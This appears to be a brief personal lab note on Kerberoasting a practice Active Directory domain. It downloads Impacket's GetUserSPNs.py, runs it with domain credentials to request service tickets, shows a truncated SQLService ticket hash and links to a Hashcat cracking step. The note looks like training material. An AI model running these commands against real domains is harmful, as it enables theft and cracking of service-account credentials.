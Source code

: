 ```bash - kali
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py
```

```python - kali
python3 GetUserSPNs.py $DOMAIN/$USER:$PASSWORD -dc-ip $DOMAIN_IP -request
```

![[Pasted image 20211227203629.png]]

`$krb5tgs$23$*SQLService$MARVEL.LOCAL$MARVEL.local/SQLService*$fc60....015e`


[[Hashcat#Kerberos TGS-REP]]

![[Pasted image 20211227204632.png|2000]]

